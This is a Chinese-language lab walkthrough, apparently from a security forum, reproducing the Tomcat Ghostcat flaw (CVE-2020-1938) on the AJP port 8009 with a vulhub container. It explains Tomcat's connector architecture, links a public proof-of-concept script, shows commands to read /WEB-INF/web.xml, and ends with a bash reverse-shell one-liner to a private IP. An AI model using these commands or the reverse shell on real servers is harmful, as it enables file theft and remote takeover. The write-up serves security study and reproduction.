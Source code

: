 <https://xz.aliyun.com/t/7325>

<https://yinwc.github.io/2020/03/01/CVE-2020-1938/>

#### 运行过程

![image-20210718060241151](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-cf49b5cc17a217f7d90d90f22442930055b2376a.png)

从图中可以看出，Tomcat最顶层的容器是 Server，其中包含至少一个或者多个 Service，一个 Service有多个 Connector和一个 Container组成。

这两个组件的作用为:

```php
1、Connector用于处理连接相关的事情，并提供Socket与Request和Response相关的转化；2、Container用于封装和管理 Servlet，以及具体处理 Request请求
```

Tomcat默认的`conf/server.x ml`中配置了2个Connector，

一个为8080端口 HTTP协议(1.1版本)端口，默认监听地址：`0.0.0.0:8080`

另外一个就是默认的8009 AJP协议(1.3版本)，默认监听地址为：`0.0.0.0:8009`，两个端口默认均监听在外网。此次漏洞产生的位置便是8009 AJP协议，此处使用公开的利用脚本进行测试，可以看到能读取`web.x ml`文件

#### 漏洞复现

利用vulhub

```php
cd tomcat/CVE-2020-1938sudo docker-compose up -d
```

![1619348867355](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f293c54c372602e1dcf0f336ed1b1c0efe8181d9.png)

Poc地址：<https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi>

脚本是基于Python2的

它可以看webapps目录下的所有东西

![1619349787403](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d5f8d73dd7a2c5aec8ec643fbe0069914a971858.png)

可以看到它的语法要求

```php
python2 文件读取.py 192.168.175.191 -p 8009 -f webapps目录下的待读取的文件
```

```php
python2 文件读取.py 192.168.175.191 -p 8009 -f /WEB-INF/web.x ml
```

![1619349894166](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-91da877f8e9edd1e2b5f594e6b4ac960701f3738.png)

文件包含RCE

在线bash payload生成： <http://www.jackson-t.ca/runtime-exec-payloads.html>

```php
bash -i >& /dev/tcp/192.168.175.191/8888 0>&1
```

